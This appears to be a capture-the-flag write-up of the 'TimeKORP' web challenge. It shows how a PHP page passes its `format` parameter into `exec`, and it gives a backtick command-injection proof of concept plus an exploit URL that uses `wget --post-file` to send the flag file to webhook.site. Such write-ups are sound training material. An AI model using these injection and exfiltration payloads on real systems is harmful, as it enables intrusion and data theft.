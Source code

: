 # Web - TimeKORP

## Description
> Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.

<br>
<br>

## Walkthrough

In this challenge we were given a web instance and the source code.

I looked at the website and saw a small page showing us the time.

![Screenshot0](./screenshots/0.png)

At the top left we have two menus: "What's the time" and "What's the date?".

If we click on these, we see parameters with formatting settings as it looks.

__URL:__ `http://<IP>:<PORT>/?format=%Y-%m-%d`

![Screenshot1](./screenshots/1.png)

I played around with the parameters briefly and noticed that sometimes we get nothing displayed, or we can also influence the formatting, such as being able to specify the year 3 times.

__URL:__ `http://<IP>:<PORT>>/?format=%Y-%Y-%Y`

![Screenshot2](./screenshots/2.png)

Ok, let's take a look at what the whole thing looks like behind the scenes and take a look at the code.

__File:__ `TimeController.php`

![Screenshot3](./screenshots/3.png)

__File:__ `TimeModel.php`

![Screenshot4](./screenshots/4.png)

<br>
<br>

### Solution

Ok, we can see that `exec` is being used in the background and we can pass user input via the `format` GET parameter.

It quickly becomes clear that we are probably dealing with an __RCE vulnerability__ here.

__POC:__

```
http://<IP>:<PORT>/?format=%Y-%Y-%Y'`sleep 3`'#
```
And then I retrieved the flag with the help of [webhook.site](https://webhook.site) and `wget`.

__Exploit:__
```
http://<IP>>:<PORT>/?format=%27`wget%20%20--post-file=/flag%20https://webhook.site/<ID>`%27#
```

__Flag:__

![Screenshot5](./screenshots/5.png)




